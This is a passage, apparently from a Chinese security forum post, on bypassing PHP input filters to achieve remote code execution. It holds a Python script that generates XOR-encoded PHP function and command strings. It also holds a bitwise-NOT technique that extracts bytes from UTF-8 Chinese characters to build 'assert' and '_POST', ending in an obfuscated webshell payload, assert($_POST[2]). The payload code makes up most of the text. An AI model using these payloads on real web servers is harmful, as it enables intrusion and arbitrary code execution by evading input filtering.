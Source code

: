 ```php
#!/usr/bin/python
# -*- coding: UTF-8 -*-

import requests
import urllib
from sys import *
import os

def action(arg):
    s1=""
    s2=""
    for i in arg:
        f=open("xor_rce.txt","r")
        while True:
            t=f.readline()
            if t=="":
                break
            if t[0]==i:
                # print(i)
                s1+=t[2:5]
                s2+=t[6:9]
                break
        f.close()
    output="(\""+s1+"\"^\""+s2+"\")"
    return(output)

while True:
    param=action(input("\n[+] your function: "))+action(input("[+] your command: "))+";"
    print('\n',param)
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c8b834b5e7f7add5fc87adda600eda3b56a7dd3b.png)

#### 取反

这里是P牛的方法二，和方法一有异曲同工之妙，唯一差异就是，方法一使用的是**位运算**里的“异或”，方法二使用的是**位运算里**的“取反”。

方法二**利用的是UTF-8编码的某个汉字**，并**将其中某个字符取出来**，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`：

```php
echo ~('瞰'{1});    // a
echo ~('和'{2});    // s
echo ~('和'{2});    // s
echo ~('的'{1});    // e
echo ~('半'{1});    // r
echo ~('始'{2});    // t
```

随机选择了一些汉字之后得到了如下的姿势

```php
$__=('>'>'<')+('>'>'<');    // $__=2, 利用PHP的弱类型的特点获取数字
$_=$__/$__;    // $_=1

$____='';$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__}); // $____=assert

$_____=_;$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});  // $_____=_POST

$_=$$_____;  // $_=$_POST
$____($_[$__]);  // assert($_POST[2])
```
